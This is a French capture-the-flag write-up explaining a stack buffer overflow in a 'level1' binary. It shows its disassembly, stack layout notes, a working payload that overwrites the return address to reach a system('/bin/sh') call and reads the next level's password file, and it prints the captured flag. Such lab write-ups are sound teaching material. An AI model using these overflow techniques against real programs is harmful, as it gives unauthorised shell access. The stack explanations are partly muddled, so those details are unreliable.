 Sur ce binaire, on a une fonction `main` toute basique, accompagnée juste au dessus d'une fonction `run` (`objdump -M intel -d level1`):
```
08048444 <run>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	a1 c0 97 04 08       	mov    eax,ds:0x80497c0
 804844f:	89 c2                	mov    edx,eax
 8048451:	b8 70 85 04 08       	mov    eax,0x8048570
 8048456:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 804845a:	c7 44 24 08 13 00 00 	mov    DWORD PTR [esp+0x8],0x13
 8048461:	00 
 8048462:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 8048469:	00 
 804846a:	89 04 24             	mov    DWORD PTR [esp],eax
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret    

08048480 <main>:
 8048480:	55                   	push   ebp
 8048481:	89 e5                	mov    ebp,esp
 8048483:	83 e4 f0             	and    esp,0xfffffff0
 8048486:	83 ec 50             	sub    esp,0x50
 8048489:	8d 44 24 10          	lea    eax,[esp+0x10]
 804848d:	89 04 24             	mov    DWORD PTR [esp],eax
 8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>
 8048495:	c9                   	leave
 8048496:	c3                   	ret
```

La fonction `main` est donc tout d'abord exécutée, elle laisse `0x50` = `80` caracters de place dans la stack, se déplace à 16 caractères de là, et définie donc cette position pour recevoir une chaine de caractère prise en entrée par la fonction `gets`.

La première chose à laquelle on pense face à ça c'est : On fait quoi ?

Pas de panique, c'est une attaque connue. Lorsque l'on rentre dans un programme / fonction, l'adresse de retour de la fonction (utilisée lorsque la fonction retourne) est utilisée pour continuer les instructions de la fonction précédente.
Par chance, cette adresse est stockée sur la Stack, et en plus, on peut écrire dessus grâce à un overflow de celle-ci.

Comment est-ce possible ?

La stack au démarrage de la fonction `main` contient `argc`, `argc`, `envp` (si utilisés). Elle contient également toutes les ressources nécessaire au bon fonctionnement des fonctions de la callstack.

De ce que l'on peut voir du code, l'état de notre stack est à la positoon `ebp` dans la mémoire. Puis, on va retirer 80 octets sur cette position afin de pouvoir remplir l'espace entre les deux de données.

Par exemple, si on alloue une chaine de 80 caractères, notre stack pourrait ressembler à ça :
______________________
|        stack       |
|____________________|
| position | valeur  |
|__________|_________|
| ebp-4    | old_stack |
| ebp      | ret address |
| ebp+4    | argc    |
| ebp+8    | argv    	|
| ebp+64   | pointeur vers la string de `gets` |
| ebp+80   | fin du pointeur de la stack sur la frame |
|__________|_________|

Fonction `run`:
Elle créée sa stack, elle lui laisse 24B dedans, elle copie dans `edx` un pointeur (`stdout@@GLIBC_2.0`),  puis elle move "Good... Wait what?" dans `eax`.
Elle fou tout dans la stack :
```
______________________
| position | element |
|__________|_________|
| 12       | stdout@ |
| 8        | 19      |
| 4        | 1       |
| 0        | "Good." |
|__________|_________|
```

Ensuite il appel `write`, je rappel dans l'ordre de la stack conventionnellement au `x86` et non `x86_64`, on utilise pas les registres en tant que paramètre mais directement la stack, donc :
`fwrite(stdout("Good..."), 19, 1)` donc, il va écrire dans le `stream` retourné par la fonction `stdout` dans laquelle on aura passé la string `Good ...` pendant `19` membre de taille `1`.

Ensuite, il va move la string contenu dans le pointeur `0x8048584` = `/bin/sh` dans la stack, et va appeler `system`, qui va exécuter `/bin/sh`, une fois fini, on sort de la fonction

Attention au EOF.

Payload:
```sh
python -c '__import__("sys").stdout.write("A"*80+"\x44\x84\x04\x08")' > /tmp/exploit
cat /tmp/exploit - | ./level1
cat /home/user/level2/.pass
```

`53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`